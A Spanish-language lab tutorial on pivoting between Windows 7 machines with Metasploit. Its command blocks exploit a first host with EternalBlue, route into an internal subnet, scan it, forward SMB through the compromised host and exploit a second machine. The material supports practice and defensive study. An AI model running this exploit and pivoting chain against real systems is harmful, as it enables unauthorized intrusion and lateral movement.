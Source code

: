 # Pivoting en Windows usando Metasploit

![Laboratorio de pivoting en Windows](./Pivoting%20Windows.png)

En primer lugar, debemos ganar acceso a la máquina Windows 7 intermedia para luego hacer el pivoting al la máquina objetivo final que es otro Windows 7.

#### Reconocimiento

```bash
$ arp-scan -I eth0 --localnet --ignoredups
```

Identificamos la ip objetivo: `192.168.1.14`

En este punto, realizaríamos el escaneo con _nmap_ para encontrar los distintos puertos abiertos, vulnerabilidades, etc. En este caso, como es un laboratorio para practicar pivoting y conociendo que es un Windows 7 lo que esta corriendo en la máquina objetivo, utilizaremos el exploit _Eternal Blue_.

```bash
$ msfbd run
msf6> workspace -a PivotingWindows
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set RHOSTS 192.168.1.14
msf6> run
```

Enviamos a segundo plano la sesión de meterpreter y luego ejecutamos el modulo `post/multi/manage/autoroute` para realizar el enrutamiento del la red 20.20.20.0/24.

```bash
meterpreter > ifconfig -> listas las interfaces de red
meterpreter > CTRL + Z
msf6> use post/multi/manage/autoroute
msf6> set SESSION 1
msf6> run
```

Luego, ejecutamos el modulo `post/windows/gather/arp_scanner` para encontrar hosts activos dentro de la nueva red 20.20.20.0/24.

```bash
msf6> use post/windows/gather/arp_scanner
msf6> set RHOSTS 20.20.20.0/24
msf6> set SESSION 1
msf6> run
[*] Running module against WINDOWS
[*] ARP Scanning 20.20.20.0/24
[+]     IP: 20.20.20.1 MAC 52:54:00:12:35:00 (Realtek (UpTech? also reported))
[+]     IP: 20.20.20.4 MAC 08:00:27:af:83:db (CADMUS COMPUTER SYSTEMS)
[+]     IP: 20.20.20.3 MAC 08:00:27:5d:98:b2 (CADMUS COMPUTER SYSTEMS)
[+]     IP: 20.20.20.2 MAC 52:54:00:12:35:00 (Realtek (UpTech? also reported))
[+]     IP: 20.20.20.5 MAC 08:00:27:53:78:f2 (CADMUS COMPUTER SYSTEMS)
[+]     IP: 20.20.20.255 MAC 08:00:27:af:83:db (CADMUS COMPUTER SYSTEMS)
[*] Post module execution completed
```

Una vez identificado la máquina victima `20.20.20.5`, podemos utilizar el modulo `auxiliary/scanner/portscan/tcp` para descubrir los puertos abiertos en la máquina.

```bash
msf6> use auxiliary/scanner/portscan/tcp
msf6> set PORTS 1-1000
msf6> set RHOSTS 20.20.20.5
msf6> run
[+] 20.20.20.5: - 20.20.20.5:445 - TCP OPEN
```

Ahora que conocemos los puertos abiertos, podemos aplicar el port forwarding. Para lo cual, usamos el modulo `post/windows/manage/portproxy`

```bash
msf6> use post/windows/manage/portproxy
msf6> set CONNECT_ADDRESS 20.20.20.5
msf6> set CONNECT_PORT 445
msf6> set LOCAL_ADDRESS 0.0.0.0
msf6> set LOCAL_PORT 4545
msf6> set SESSION 1
msf6> run
```

#### Dirección 0.0.0.0

> **En el contexto de configuración de red (En un servidor o dispositivo):**
>
> Puede indicar que el dispositivo está configurado para escuchar en todas las interfaces de red disponibles. En otras palabras, significa "cualquier dirección" o "todas las interfaces". Por ejemplo, si un servidor está configurado para escuchar en la dirección IP 0.0.0.0, estará esperando conexiones en todas sus interfaces de red.

Con el modulo anterior, logramos redireccionar el puerto **445 (SMB)** de la máquina objetivo final (20.20.20.5) a el puerto **4545** de la máquina victima intermedia (20.20.20.4) para luego pode hacer el reconocimiento de versión y servicio.

```bash
msf6> db_nmap -sCV -p4545 192.168.1.14 -vvv
```

> Para ejecutar el comando anterior, debemos indicar la ip de la máquina intermedia en la interfaz a la cual tenemos acceso desde nuestra máquina atacante.

Por ultimo, para realizar el ataque a la máquina victima final ejecutamos otra instancia de metasploit y lanzamos nuevamente el exploit de **Eternal Blue**.

```bash
$ msfdb run
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set RHOSTS 192.168.1.14
msf6> set RPORT 4545 -> este es el puerto 445 de la máquina 20.20.20.5
msf6> set LPORT 5555
msf6> run
```
